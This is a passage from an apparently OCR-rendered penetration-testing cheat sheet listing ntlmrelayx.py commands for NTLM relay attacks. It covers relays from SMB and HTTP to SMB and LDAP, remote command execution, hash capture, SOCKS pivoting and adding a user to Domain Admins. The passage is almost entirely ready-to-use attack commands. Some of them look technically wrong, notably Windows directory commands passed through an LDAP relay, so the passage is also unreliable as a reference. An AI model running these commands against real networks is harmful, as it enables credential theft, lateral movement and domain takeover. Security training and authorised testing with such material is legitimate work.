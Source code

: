     ntlmrelayx.py -t <target_ip> -smb2support -c "ipconfig"
    ```
5. **Relay with RPC over SMB**: Relays NTLM authentication over RPC to an SMB target, executing the `hostname` command.
    ```bash
    ntlmrelayx.py -t <target_ip> -rpc-smb -c "hostname"
    ```

#### HTTP to SMB Relay
This scenario involves relaying NTLM authentication from an HTTP server to an SMB server.

1. **Basic HTTP to SMB Relay**: Relays NTLM authentication from HTTP to an SMB target, executing the `dir` command.
    ```bash
    ntlmrelayx.py -t <smb_target_ip> -c "dir"
    ```
2. **Relay with Command Execution**: Relays NTLM authentication from HTTP and runs a specified executable on the SMB target.
    ```bash
    ntlmrelayx.py -t <smb_target_ip> -e /path/to/your/executable.exe
    ```
3. **Relay and Capture NTLM Hashes**: Relays NTLM authentication from HTTP to SMB, captures the NTLM hashes without executing any command on the target.
    ```bash
    ntlmrelayx.py -t <smb_target_ip> --no-execute -smb2support
    ```
4. **Relay with Socks Proxy for Pivoting**: Starts a SOCKS proxy after a successful relay, allowing for further pivoting into the network.
    ```bash
    ntlmrelayx.py -t <smb_target_ip> -socks
    ```
5. **Relay with Debugging Enabled**: Enables debug output for detailed logging during the relay process.
    ```bash
    ntlmrelayx.py -t <smb_target_ip> -debug
    ```

#### SMB to LDAP Relay
Relaying NTLM authentication from SMB to LDAP can be particularly useful in attacks targeting Active Directory environments.

1. **Basic SMB to LDAP Relay**: Relays NTLM authentication from SMB to an LDAP target, executing the `dsquery *` command to query the directory.
    ```bash
    ntlmrelayx.py -t ldap://<ldap_target_ip> -c "dsquery *"
    ```
2. **Relay with User Enumeration**: Executes a `dsquery user` command on the LDAP target to enumerate users.
    ```bash
    ntlmrelayx.py -t ldap://<ldap_target_ip> -c "dsquery user"
    ```
3. **Relay with Group Enumeration**: Enumerates groups on the LDAP target by relaying authentication and executing `dsquery group`.
    ```bash
    ntlmrelayx.py -t ldap://<ldap_target_ip> -c "dsquery group"
    ```
4. **Modify LDAP Objects via Relay**: Adds a user to the Domain Admins group on the LDAP target by relaying NTLM authentication and modifying LDAP objects.
    ```bash
    ntlmrelayx.py -t ldap://<ldap_target_ip> -c "dsmod group 'CN=Domain Admins,CN=Users,DC=domain,DC=com' -addmbr 'CN=NewUser,CN=Users,DC=domain,DC=com'"
    ```
5. **Relay to Execute Code on LDAP Target**: Uses the relay to execute a Metasploit resource script that targets LDAP for code execution.
    ```bash